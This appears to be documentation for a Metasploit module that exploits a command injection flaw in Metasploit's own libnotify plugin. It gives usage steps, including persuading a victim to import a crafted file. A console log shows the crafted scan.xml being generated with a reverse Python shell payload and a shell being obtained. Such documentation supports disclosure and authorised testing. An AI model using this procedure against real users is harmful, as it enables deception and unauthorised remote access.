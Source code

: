 ## Vulnerable Application

Metasploit Framework versions prior to 5.0.86 are vulnerable to a command
injection vulnerability in the default `libnotify` plugin. The `libnotify`
plugin fails to properly parse the argument array to an executed operating
system command. If an attacker can convince a user running an affected version
of the Metasploit Framework with the `libnotify` plugin loaded to import a
specially crafted data file with `db_import`, they can execute a command within
the context of the user running Metasploit.

In order to trigger the vulnerable code path, the service reported must be
unique. This means that when the exploit file is loaded, it will not trigger the
vulnerability again unless the service is removed. The easiest way to remove the
service is to delete all services from the database using the `services -d`
command.

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/unix/fileformat/metasploit_libnotify_cmd_injection`
  1. Set options as appropriate
  1. Do: `exploit`
  1. Start a payload handler using `exploit/multi/handler`
  1. Transfer the file to the intended target and convince them to open it

## Scenarios

### Metasploit Framework v5.0.76


```
msf5 > use exploit/unix/fileformat/metasploit_libnotify_cmd_injection 
msf5 exploit(unix/fileformat/metasploit_libnotify_cmd_injection) > show options 

Module options (exploit/unix/fileformat/metasploit_libnotify_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  scan.xml         no        The file to write.


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.

   **DisablePayloadHandler: True   (RHOST and RPORT settings will be ignored!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/fileformat/metasploit_libnotify_cmd_injection) > exploit

[*] Writing xml file: scan.xml
[+] scan.xml stored at /home/smcintyre/.msf4/local/scan.xml
msf5 exploit(unix/fileformat/metasploit_libnotify_cmd_injection) > use exploit/multi/handler 
msf5 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
^C[-] Exploit failed [user-interrupt]: Interrupt 
[-] exploit: Interrupted
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 3.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.159.128:4444 
msf5 exploit(multi/handler) > version
Framework: 5.0.76-dev-50cfb07cff
Console  : 5.0.76-dev-50cfb07cff
msf5 exploit(multi/handler) > load libnotify
[*] Successfully loaded plugin: libnotify
msf5 exploit(multi/handler) > services -d
Services
========

host  port  proto  name  state  info
----  ----  -----  ----  -----  ----

msf5 exploit(multi/handler) > db_import /home/smcintyre/.msf4/local/scan.xml
[*] Importing 'Nmap XML' data
[*] Import: Parsing with 'Nokogiri v1.10.8'
[*] Importing host 192.168.20.121
sh: line 1: State:: command not found
sh: line 2: Proto:: command not found
sh: -c: line 3: unexpected EOF while looking for matching `''
sh: -c: line 4: syntax error: unexpected end of file
[*] Successfully imported /home/smcintyre/.msf4/local/scan.xml
msf5 exploit(multi/handler) > [*] Command shell session 4 opened (192.168.159.128:4444 -> 192.168.159.128:35516) at 2020-04-16 14:54:39 -0400

msf5 exploit(multi/handler) > sessions -i 4
[*] Starting interaction with 4...

id
uid=1000(smcintyre) gid=1000(smcintyre) groups=1000(smcintyre),10(wheel),974(wireshark),975(docker) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
